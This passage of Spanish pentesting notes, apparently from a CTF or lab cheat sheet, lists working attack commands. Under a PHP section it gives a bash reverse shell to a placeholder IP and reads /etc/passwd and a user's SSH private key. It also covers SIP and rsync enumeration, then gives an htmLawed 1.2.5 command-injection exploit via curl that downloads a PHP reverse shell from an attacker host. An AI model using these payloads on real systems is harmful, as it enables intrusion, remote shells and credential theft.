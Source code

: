 echo "Funciones deshabilitadas: " . ini_get('disable_functions');

Si la salida está vacía, significa que no hay funciones deshabilitadas (todas están disponibles). Si hay una lista como shell_exec,passthru,system, esas son las funciones bloqueadas.

si está vacía, podemos hacer una reverse shell:
system('bash -c "bash -i >& /dev/tcp/TU_IP/443 0>&1"');

podemos ver también el /etc/passwd

echo file_get_contents('/etc/passwd');

ejemplo de resultado:
alfred

o si tenemos el puerto ssh abierto podemos ver el archivo id_rsa de alfred

echo file_get_contents('/home/alfred/.ssh/id_rsa');

-------------------------------------------------------------------------------

23.- SIP

El Protocolo de Iniciación de Sesión (SIP) es un protocolo de señalización utilizado para establecer, gestionar y finalizar sesiones multimedia, como llamadas de voz y videoconferencias, a través de redes de telecomunicaciones, especialmente en VoIP (Voz sobre IP)

Puerto: 5060

Herramienta para auditar:

https://github.com/Pepelux/sippts

sippts <command> -h

utilizamos leak para ver vulnerabilidades

vamos jugando con la herramienta, según las necesidades


24.- rsync

verificamos si podemos subir algo como permisos de escritura:

aplicamos la técnica del apunte 24 del archivo apuntes.txt, lo buscamos como ssh-keygen

rsync IP::

25.- htmLawed 1.2.5

URL =http://IP/path/to/htmLawedTest.php

palabras clave, URL y COMANDO

curl -s -d 'sid=foo&hhook=exec&text=COMANDO' -b 'sid=foo' URL |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'

subimos una reverse shell en php

curl -s -d "sid=foo&hhook=exec&text=wget http://IP-KALI/rev.php" -b 'sid=foo' URL |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'
 

luego nos ponemos en escucha con netcat, según el rev.php
